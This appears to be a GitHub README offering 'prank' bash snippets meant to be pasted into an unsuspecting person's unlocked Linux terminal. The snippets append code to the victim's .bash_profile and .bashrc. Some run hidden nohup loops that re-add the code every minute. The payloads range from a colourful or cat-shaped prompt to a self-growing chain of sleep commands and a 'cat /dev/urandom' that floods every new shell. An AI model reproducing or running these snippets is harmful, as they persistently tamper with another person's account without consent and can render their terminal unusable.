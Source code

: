 # fun-prank-scripts

## Kill nohup commands
```
pkill -f "bash -c while true;"
```

## rainbow_script
Copy and paste the script into unsuspecting user's linux terminal, and on their next login, it will modify their bashrc file to make their ps1 very colorful!
This will continue to happen until they remove the added code from the .bash_profile file.
```
cat >> "$HOME/.bash_profile" << 'EOF'
BLOCK_START="# >>> LOCKED PROMPT PRANK START >>>"
BLOCK_END="# <<< LOCKED PROMPT PRANK END <<<"

TARGET="$HOME/.bashrc"

if ! grep -Fq "$BLOCK_START" "$TARGET"; then
  cat >> "$TARGET" << 'BLOCK'
# >>> LOCKED PROMPT PRANK START >>>
random_prompt() {
  local base_colors=(30 31 32 33 34 35 36 37)
  local prompt="hey there! you should have locked your computer! :$ "
  local colored_prompt=""
  local prompt_length=${#prompt}

  for ((i=0; i<prompt_length; i++)); do
    local char="${prompt:$i:1}"
    local color=${base_colors[$RANDOM % ${#base_colors[@]}]}
    colored_prompt+="\[\e[0;${color}m\]$char"
  done

  colored_prompt+="\[\e[0m\]"  # Reset color
  PS1="$colored_prompt"
}

PROMPT_COMMAND=random_prompt
# <<< LOCKED PROMPT PRANK END <<<
BLOCK
fi
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \nrandom_prompt() {
  local base_colors=(30 31 32 33 34 35 36 37)
  local prompt="hey there! you should have locked your computer! :$ "
  local colored_prompt=""
  local prompt_length=${#prompt}

  for ((i=0; i<prompt_length; i++)); do
    local char="${prompt:$i:1}"
    local color=${base_colors[$RANDOM % ${#base_colors[@]}]}
    colored_prompt+="\[\e[0;${color}m\]$char"
  done

  colored_prompt+="\[\e[0m\]"  # Reset color
  PS1="$colored_prompt"
}

PROMPT_COMMAND=random_prompt" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

## sleeping
Copy and paste the script into unsuspecting user's linux terminal, and on their next login, it will modify their bashrc file to add sleep to their bashrc every time it's run!
This will continue to happen until they remove the added code from the .bash_profile file.

```
cat >> "$HOME/.bash_profile" << 'EOF'
cat >> "$HOME/.bashrc" << 'BLOCK'
echo sleep 0.$RANDOM >> $HOME/.bashrc
BLOCK
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \necho sleep 0.$RANDOM >> $HOME/.bashrc" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

## cat_ps1
```
cat >> "$HOME/.bash_profile" << 'EOF'
cat >> "$HOME/.bashrc" << 'BLOCK'
export PS1='\n|\---/|\n| o_o |\n \_^_/\n\n\$ '
BLOCK
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \nexport PS1='\n|\---/|\n| o_o |\n \_^_/\n\n\$ '" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

## random_chars
```
cat >> "$HOME/.bash_profile" << 'EOF'
cat >> "$HOME/.bashrc" << 'BLOCK'
cat /dev/urandom
BLOCK
EOF
```
or
```
nohup bash -c 'while true; do grep -q "# Ben Was here" ~/.bashrc || echo -e "# Ben Was here \ncat /dev/urandom" >> ~/.bashrc; sleep 60; done' > /dev/null 2>&1 &
```

